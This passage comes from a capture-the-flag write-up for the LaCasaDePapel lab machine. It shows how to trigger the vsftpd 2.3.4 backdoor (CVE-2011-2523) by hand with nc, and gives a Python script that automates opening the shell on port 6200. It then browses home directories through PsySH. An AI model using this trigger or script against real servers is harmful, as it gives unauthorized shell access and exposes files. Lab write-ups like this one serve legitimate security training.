 Finding with searchsploit the version of the ftp running we found found **[this exploit](https://www.exploit-db.com/exploits/49757)**. This is to exploit CVE-2011-2523 vulnerability for vsftpd 2.3.4, which contains a backdoor which opens a shell on port 6200/tcp.

We don't need to use the exploit, we can do it manually. Open a ftp session with nc specifying a user ending in `:)` and a random password, then connect to the `6200` port

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/LaCasaDePapel-10.10.10.131]
└─$ nc 10.10.10.131 21
220 (vsFTPd 2.3.4)
USER test:)
331 Please specify the password.
PASS testing

------------

┌──(kali㉿kali)-[~]
└─$ nc 10.10.10.131 6200 
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
help
  help       Show a list of commands. Type `help [foo]` for information about 
...[SNIP]...
```

And we got an interactive shell, which seems to be **[PsySH](https://psysh.org/)**. We write a script to automate this process:

```python
#!/usr/bin/env python3

import socket
import subprocess
import sys
import time

if len(sys.argv) < 2:
    print(f"{sys.argv[0]} [ip] [port = 21]")
    print("port defaults to 21 if not given")
    sys.exit()
elif len(sys.argv) == 2:
    port = 21
else:
    port = int(sys.argv[2])
target = sys.argv[1]

print(f"[*] Connecting to {target}:{port}")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send(b'USER 0xdf:)\n')
s.send(b'PASS 0xdf\n')
time.sleep(2)
s.close()
print('[+] Backdoor triggered')
print('[*] Connecting')

try:
    sh = subprocess.Popen(f"nc {target} 6200", shell=True)
    sh.poll()
    sh.wait()
except KeyboardInterrupt:
    print("[!] Exiting Shell")
```

Inside PsySH we can't execute os commands, but we can use `scandir` `file_get_contents` and `readfile` functions.

```bash
scandir("/home")
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]
scandir("/home/berlin")
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
     "node_modules",
     "server.js",
     "user.txt",
   ]
file_get_contents("/home/berlin/user.txt")
PHP Warning:  file_get_contents(/home/berlin/user.txt): failed to open stream: Permission denied in phar://eval()'d code on line 1
```

Now, going back to the HTTP service we try to generate an email with the token provided with the qr